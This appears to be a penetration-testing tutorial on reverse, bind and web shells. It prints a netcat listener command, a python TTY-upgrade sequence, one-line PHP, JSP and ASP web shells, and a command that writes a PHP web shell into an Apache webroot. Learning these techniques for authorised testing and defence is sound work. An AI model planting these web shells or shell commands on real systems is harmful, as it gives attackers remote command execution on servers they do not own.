 # Payload all the things repo
https://github.com/swisskyrepo/PayloadsAllTheThings

Once we compromise a system and exploit a vulnerability to execute commands on the compromised hosts remotely, we usually need a method of communicating with the system not to have to keep exploiting the same vulnerability to execute each command. To enumerate the system or take further control over it or within its network, we need a reliable connection that gives us direct access to the system's shell, i.e., Bash or PowerShell, so we can thoroughly investigate the remote system for our next move.

One way to connect to a compromised system is through network protocols, like SSH for Linux or WinRM for Windows, which would allow us a remote login to the compromised system. However, unless we obtain a working set of login credentials, we would not be able to utilize these methods without executing commands on the remote system first, to gain access to these services in the first place.

- Reverse Shell: Connects back to our system and gives us control through a reverse connection;
- Bind Shell: Waits for us to connect to it and gives us control once we do;
- Web Shell: Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.

# Reverse shell

A Reverse Shell is the most common type of shell, as it is the quickest and easiest method to obtain control over a compromised host. Once we identify a vulnerability on the remote host that allows remote code execution, we can start a netcat listener on our machine that listens on a specific port, say port 1234. With this listener in place, we can execute a reverse shell command that connects the remote systems shell, i.e., Bash or PowerShell to our netcat listener, which gives us a reverse connection over the remote system.

`nc -lvnp 1234`

- -l: Listen mode, to wait for a connection to connect to us;
- -v: Verbose mode, so that we know when we receive a connection;
- -n: Disable DNS resolution and only connect from/to IPs, to speed up the connection;
- -p 1234: Port number netcat is listening on, and the reverse connection should be sent to.

# Bind shell

Another type of shell is a Bind Shell. Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port.
Once we execute a Bind Shell Command, it will start listening on a port on the remote host and bind that host's shell, i.e., Bash or PowerShell'to that port. We have to connect to that port with netcat, and we will get control through a shell on that system.

Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

# Upgrading TTY

Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.

There are multiple methods to do this. For our purposes, we will use the python/stty method. In our netcat shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:

`python -c 'import pty; pty.spawn("/bin/bash")'`

After we run this command, we will hit ctrl+z to background our shell and get back on our local terminal, and input the following stty command:

- `stty raw -echo`
- `fg`
- `export SHELL=bash`
- `export TERM=xterm-256color`

Once we hit fg, it will bring back our netcat shell to the foreground. At this point, the terminal will show a blank line. We can hit enter again to get back to our shell or input reset and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.

We may notice that our shell does not cover the entire terminal. To fix this, we need to figure out a few variables. We can open another terminal window on our system, maximize the windows or use any size we want, and then input the following commands to get our variables:

`echo $TERM`
`stty size`

The first command showed us the TERM variable, and the second shows us the values for rows and columns, respectively. Now that we have our variables, we can go back to our netcat shell and use the following command to correct them:

`export TERM=xterm-256color`
`stty rows 67 columns 318`

# Web shell

The final type of shell we have is a Web Shell. A Web Shell is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.

First of all, we need to write our web shell that would take our command through a GET request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

- PHP: `<?php system($_REQUEST["cmd"]); ?>`
- jsp: `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
- asp: `<% eval request("cmd") %>`

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. shell.php and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

- Apache: /var/www/html/
- Nginx: /usr/local/nginx/html/
- IIS: c:\inetpub\wwwroot\
- XAMPP: C:\xampp\htdocs\

We can check these directories to see which webroot is in use and then use echo to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a PHP shell with the following command:

`echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`

Once we write our web shell, we can either access it through a browser or by using cURL.
